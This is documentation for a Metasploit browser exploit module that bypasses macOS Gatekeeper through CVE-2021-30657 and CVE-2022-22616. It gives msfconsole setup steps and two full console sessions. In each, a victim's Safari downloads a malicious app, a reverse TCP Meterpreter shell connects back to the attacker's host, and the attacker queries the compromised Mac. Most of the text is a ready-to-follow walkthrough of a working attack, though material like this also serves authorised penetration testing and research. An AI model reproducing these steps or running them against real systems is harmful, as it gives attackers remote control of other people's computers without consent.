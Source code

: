 ## Vulnerable Application

This module exploits two CVEs that bypass Gatekeeper.

For CVE-2021-30657 this module serves an OSX app (as a zip) that contains
no Info.plist, which bypasses gatekeeper in macOS < 11.3.

If the user visits the site on Safari, the zip file is automatically extracted,
and clicking on the downloaded file will automatically launch the payload.
If the user visits the site in another browser, the user must click once to unzip
the app, and click again in order to execute the payload.

For CVE-2022-22616, this module serves a gzip-compressed zip file that
contains an OSX app. If the user downloads the file via Safari, Safari will
automatically decompress the file, removing its `com.apple.quarantine` attribute.
Because of this, the file will not require quarantining, bypassing Gatekeeper on
MacOS versions below 12.3.

## Verification Steps

1. Start `msfconsole`
1. `use exploit/osx/browser/osx_gatekeeper_bypass`
1. `set LHOST <tab>`
1. `set SRVHOST <tab>`
1. `exploit`
1. Visit the URL on a vulnerable version of macOS

## Options

### APP_NAME

Name of the app to be served.

### CVE

The vulnerability to use in the exploit. The default value is the most recent cve (CVE-2022-22616).

## Scenarios

### macOS Catalina 10.15.6

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > options

Module options (exploit/osx/browser/osx_gatekeeper_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   APP_NAME  app              no        The application name (Default: app)
   SRVHOST   192.168.37.1     yes       The local host or network interface to listen on. This must be an a
                                        ddress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (osx/x64/meterpreter/reverse_tcp):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   LHOST                  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT                  4444             yes       The listen port
   MeterpreterDebugLevel  0                yes       Set debug level for meterpreter 0-3 (Default output is
                                                      strerr)


Exploit target:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)


msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.37.1:8080/q670M8fEMu
[*] Server started.
[*] 192.168.37.132   osx_gatekeeper_bypass - Request /q670M8fEMu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
[+] 192.168.37.132   osx_gatekeeper_bypass - macOS version 10.15.6 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810096 bytes) to 192.168.37.132
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49380) at 2021-04-29 15:21:38 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions

Active sessions
===============

  Id  Name  Type                 Information                           Connection
  --  ----  ----                 -----------                           ----------
  1         meterpreter x64/osx  space @ spaces-Mac.local (uid=501, g  192.168.37.1:4444 -> 192.168.37.132:
                                 id=20, euid=501, egid=20) @ spaces-M  49380 (192.168.37.132)
                                 ac.local

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space @ spaces-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : macOS Catalina (macOS 10.15.6)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

### macOS Monterey 12.1

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)
   1   Python payload
   2   Command payload


msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set target 1
target => 1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.140.1:4444 
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.140.1:8080/0sJEWz
[*] Server started.
[*] 192.168.140.133  osx_gatekeeper_bypass - Request /0sJEWz from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
[+] 192.168.140.133  osx_gatekeeper_bypass - macOS version 10.15.7 is vulnerable
[*] Sending stage (39936 bytes) to 192.168.140.133
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.133:49153 ) at 2022-04-01 17:47:58 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > 
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : Darwin 21.2.0 Darwin Kernel Version 21.2.0: Sun Nov 28 20:28:54 PST 2021; root:xnu-8019.61.5~1/RELEASE_X86_64
Architecture : x64
Meterpreter  : python/osx
meterpreter >
```
